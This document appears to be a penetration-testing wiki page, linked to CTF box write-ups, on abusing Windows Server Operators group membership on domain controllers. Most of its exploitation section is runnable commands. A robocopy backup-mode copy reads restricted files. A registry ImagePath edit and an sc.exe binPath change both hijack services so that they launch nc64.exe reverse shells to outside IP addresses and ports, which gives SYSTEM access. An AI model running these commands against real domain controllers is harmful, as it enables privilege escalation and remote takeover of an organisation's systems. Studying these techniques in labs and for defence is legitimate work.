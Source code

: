 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Server Operators

## Information

Server Operators exists only on DCs and are used for managing the DC as a whole, including service configurations and files. They can create and delete network shared resources, **start and stop services**, **back up and restore files**, and **change installed binaries** on the DCs. This group is considered a **service administrator** account because its members have physical access to DCs.

> Well-known SID/RID: `S-1-5-32-549`.

<table><thead><tr><th width="221">Privileges</th><th>Description</th></tr></thead><tbody><tr><td><a href="https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-10/security/threat-protection/security-policy-settings/back-up-files-and-directories">SeBackupPrivilege</a></td><td>Allows us to create backups of any files, whilst not restoring their permissions, which equals to <strong>arbitrary read access</strong>.</td></tr><tr><td><a href="https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-10/security/threat-protection/security-policy-settings/restore-files-and-directories">SeRestorePrivilege</a></td><td>Allows us to <strong>overwrite legitimate executable files</strong> with versions that include malicious software used for <strong>privilege escalation</strong>.</td></tr></tbody></table>

## Exploitation

### Accessing Files

<pre class="language-powershell"><code class="lang-powershell"><strong># copy "restricted" data
</strong><strong>robocopy /b C:\users\administrator\desktop C:\programdata\temp
</strong></code></pre>

For an example of the above method check [here](../../../../boxes/boxes/insane/multimaster.md#sebackupprivilege).

### ImagePath

Member of this group has the ability to manage services. By modifying the `ImagePath` of a service we can gain `SYSTEM` level access.

{% code overflow="wrap" %}
```powershell
# change ImagePath
reg add "HKLM\System\CurrentControlSet\services\wuauserv" /v ImagePath /t REG_EXPAND_SZ /d "C:\Windows\System32\spool\drivers\color\nc64.exe -e powershell.exe 10.10.14.6 1337" /f
# confirm change
reg query "HKLM\System\CurrentControlSet\services\wuauserv"
# start service
Start-Service wuauserv
```
{% endcode %}

For an example of the above method check [here](../../../../boxes/boxes/insane/multimaster.md#server-operators).

### binPath

Similar to [`ImagePath`](server-operators.md#imagepath), we can change the `binPath`.

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"><strong># change binPath
</strong><strong>sc.exe config browser binPath= "C:\programdata\nc64.exe -e cmd.exe 10.10.14.19 443"
</strong><strong># stop the service
</strong>sc.exe stop browser
# start the service
sc.exe start browser
</code></pre>

## Resources

{% tabs %}
{% tab title="First Tab" %}
{% embed url="https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#server-operators" %}
{% endtab %}

{% tab title="Exploitation" %}
{% embed url="https://www.hackingarticles.in/windows-privilege-escalation-server-operator-group/" %}
{% endtab %}
{% endtabs %}
